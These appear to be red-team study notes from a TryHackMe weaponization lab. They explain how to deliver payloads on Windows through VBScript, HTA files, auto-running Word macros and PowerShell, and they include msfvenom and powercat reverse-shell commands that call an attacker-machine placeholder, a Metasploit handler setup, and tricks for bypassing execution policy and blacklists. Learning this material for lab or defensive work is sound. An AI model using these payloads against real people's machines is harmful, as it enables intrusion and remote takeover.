 # Weaponization

Weaponizatiion is when red teamers use their own crafted tools to exploit a target

## Windows Scripting Host (WSH)

Windows scripting host is a built-in Windows administration tool that runs batch files to automate and manage tasks within the operating system.
It uses VBScript

### Showing a message box

- Windows message box
  ```
  Dim message
  message = "Hello"
  MsgBox message
  ```
- run it in cmd: `wscript hello.vbs`

### Use it to run exe files

- Run an exe file with VBScript
  ```
  Set shell = WScript.CreateObject("Wscript.Shell")
  shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
  ```
- Execute it with wscript or cscript in cmd: `wscript c:\Users\thm\Desktop\calc.vbs` or `cscript.exe c:\Users\thm\Desktop\calc.vbs`
- In case of blacklist, possible to rename in txt and still run it: `wscript /e:VBScript c:\Users\thm\Desktop\payload.txt` 

## HTML Application (HTA)

### Using and `ActiveXObject to execute cmd.exe

```
<html>
<body>
<script>
        var c= 'cmd.exe'
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

- serve the payload `python3 -m http.server 8000`
- Visit the page from the target machine `http://IP-ATTACK-MACHINE:8000/payload.hta` and run it

### Reverse shell

- Create a reverse shell with msfvenom `msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP-ATTACK-MACHINE LPORT=443 -f hta-psh -o thm.hta`
- Launch a listener: `nc -lvp 443`
- The reverse shell is launched when the link is visited from the target machine
- Possible to generate and serve HTA with Metasploit framework `use exploit/windows/misc/hta_server`and we need to set LHOST, LPORT, SRVHOST, Payload we can use this payload `windows/meterpreter/reverse_tcp`
- When the link is visited in the target we get a meterpreter shell

## Visual Basic for Application (VBA)

- We need to use Word
- We open Visual Basic Editor by selecting `view → macros`
- We can give a name to our macro and click create
- We then can make another message box
```
Sub MACRONAME()
  MsgBox ("Message in a box")
End Sub
```
- We run the macro with F5
- To execute it automatically we can use after the document is open we need to use AutoOpen and Document_open
```
Sub Document_Open()
  MACRONAME
End Sub

Sub AutoOpen()
  MACRONAME
End Sub

Sub MACRONAME()
  MsgBox ("Message in a box")
End Sub
```
- we save the document in docm or doc

### Execute a bin

```
Sub ExecBin()
        Dim payload As String
        payload = "calc.exe"
        CreateObject("Wscript.Shell").Run payload,0
End Sub
```

### Use msfvenom for VBA

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKING-MACHINE-IP LPORT=443 -f vba
```

- We just need to copy the output in the file
- We set the listener with msfconsole `use exploit/multi/handler` `set payload windows/meterpreter/reverse_tcp` we set also LHOST and LPORT
- When the doc is open in the target machine we get a shell

## PowerShell

- Write something with powershell we open a text editor and put this inside: `Write-Output "something"`
- We save the file with .PS1 extension
- We can execute it from the cmd: `powershell -File thm.ps1`

### Execution policy

- See if we are restricted: `Get-ExecutionPolicy`
- Change it: `Set-ExecutionPolicy -Scope CurrentUser RemoteSigned`
- we can also bypassing when executing the script: `powershell -ex bypass -File script.ps1`

### Getting a reverse shell

- We can use [powercat](https://github.com/besimorhino/powercat)
- We set up a listener `nc -lvp 443`
- We launch powercat `powershell -c "powercat -c ATTACKING-MACHINE-IPP -p 443 -e cmd"`
- We should get a shell

### A great tool to generate reverse shell payloads

- [Revshells.com](https://www.revshells.com/)

## Resources

{% embed url="https://tryhackme.com/room/weaponization" %} TryHackMe - Weaponization {% endembed %}
{% embed url="https://github.com/infosecn1nja/Red-Teaming-Toolkit#Payload%20Development" %} Red Teaming Toolkit - infosecn1nja {% endembed %}

